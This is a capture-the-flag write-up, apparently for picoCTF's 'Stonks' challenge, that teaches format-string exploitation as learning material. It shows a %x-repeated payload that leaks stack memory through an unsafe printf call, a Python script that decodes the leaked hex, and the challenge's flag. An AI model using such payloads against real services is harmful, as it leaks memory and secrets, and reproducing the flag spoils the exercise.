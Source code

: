 # Stonks

### Disclaimer:
This is my first ctf within the pwn category. Therefore I used another writeup by [Abraxus](https://ctftime.org/user/100246) on CTFtime.org (Link to writeup: https://ctftime.org/writeup/28935) for own learning.

### Task description:

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure!

### So we begin

1. We open the c-file, connect in our shell and read hint to see where to look for our flag. 

  What we see is that our flag is in a separate file on the server and is beaing read and stored in the variable ```api_buf```.

  ![Code snippet of filestream being read into variable in memory](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/our_flag_stored_in_variable.png)

  This means:
  - Our flag is stored in a local variable in the so called "stack" (inside memory)

  We also know:
  - printf() function can print out stuff from the stack, and not only normal stuff, we can make it print out our flag if there is code that lets us do it.

  Therefore, we take a look at the hint once more. 

  ![Hint says: Okay, maybe I'd believe you if you find my API key.](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/hint.png)

  And we find the snippet that the hint refers to:

  ![Code snippet of functions that stores user input in variable, and print the exact variable right back to us](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/bingo.png)

  Bingo! We found the vulnerability that we want to exploit to get our flag.

  What we see:
  - scanf() function that reads whatever you write into the buffer, and stores it into a variable called ```user_buf```
  - printf() function that writes your exact input, right back at us.

  What we know (or should know):
  - printf() in combination with format specifiers can print out variables from the stack. I.e. %s print out strings, %i print out int AND MOST IMPORTANT %x print out hexadecimal.
  - By using a bunch of format specifiers, we will be able to print out all the variables stored in the stack (i.e %s, %c, %f etc.)

  And THIS IS GOOD, because:
  - If we, instead of sending a "API token" as it requests, we send a string containing our format specifiers, we will then make the process that runs on the server, **to print out whatever is stored in the stack**, which is in this case our flag. (use hiphens in between because our variable ```user_buf``` is a char pointer and not a string)

  Our input:

  ```text
  %x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x
  ```

  2. Copy and paste into your shell:

  !["What is your API token?" written in bash](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/what_is_your_api_token.png)

  Then we see the data being printed back to us!

  ![Data from the stack written in bash](https://raw.githubusercontent.com/ulrikHesmyr/picoCTF/main/picoGym/pwn/stonks/images/buying_stonks_with_token.png)

  Now we see we cant read it, but we can format it by making a small program.

  We use the following program provided in the other writeup by Abraxus.

  Our output:

  ```
  9692350-804b000-80489c3-f7fa9d80-ffffffff-1-9690160-f7fb7110-f7fa9dc7-0-9691180-5-9692330-9692350-6f636970-7b465443-306c5f49-345f7435-6d5f6c6c-306d5f79-5f79336e-35343036-64303664-ffcf007d-f7fe4af8-f7fb7440
  ``` 

  3. Copy and paste your output into the variable ```ourEncodedFlag```

  ```python
  #Output that we got from the server
ourEncodedFlag = "9692350-804b000-80489c3-f7fa9d80-ffffffff-1-9690160-f7fb7110-f7fa9dc7-0-9691180-5-9692330-9692350-6f636970-7b465443-306c5f49-345f7435-6d5f6c6c-306d5f79-5f79336e-35343036-64303664-ffcf007d-f7fe4af8-f7fb7440"

#The string we will store our flag in
s = ""

#Iterating through each hex value in ourEncodedFlag
for i in ourEncodedFlag.split('-'):

    #If the length of the string is 8, we know it is valid hex value that stores a character
    if len(i) == 8:
        a = bytearray.fromhex(i)

        #Iterating through each byte in the bytearray and reversing it because of endianness
        for b in reversed(a):

            #If the byte is a valid ascii character, we add it to our string
            if b > 32 and b < 128:
                s += chr(b)


print(s)    #output: qpicoCTF{I_l05t_4ll_my_m0n3y_6045d60d}J@t
  ```

  4. Copy the python code above, paste it into a python file (.py) on your computer and run it

  This gives us - in our case - the flag:

  ```
  picoCTF{I_l05t_4ll_my_m0n3y_6045d60d}
  ```

  **NB!** The flag can differ depending on which instance (which port) you are connecting to. (i.e 20195 is my port: nc mercury.picoctf.net 20195)

    
